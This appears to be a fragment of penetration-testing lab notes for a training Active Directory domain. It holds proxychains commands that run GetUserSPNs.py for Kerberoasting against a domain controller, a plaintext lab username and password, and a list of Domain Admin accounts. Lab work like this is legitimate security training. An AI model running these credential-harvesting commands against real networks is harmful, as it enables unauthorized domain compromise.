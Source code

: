 -> Only accessible locally
IP : 10.200.19.117


proxychains sudo python3 GetUserSPNs.py -dc-ip 10.200.19.117 THROWBACK.local/Spooks

proxychains sudo python3 GetUserSPNs.py -dc-ip 10.200.19.117 THROWBACK.local/WHumphrey:securitycenter

Domain Admins:
SPOOKS@THROWBACK.local
ADMINISTRATOR@THROWBACK.local
MERCERH@THROWBACK.local
TASKMGR@THROWBACK.local
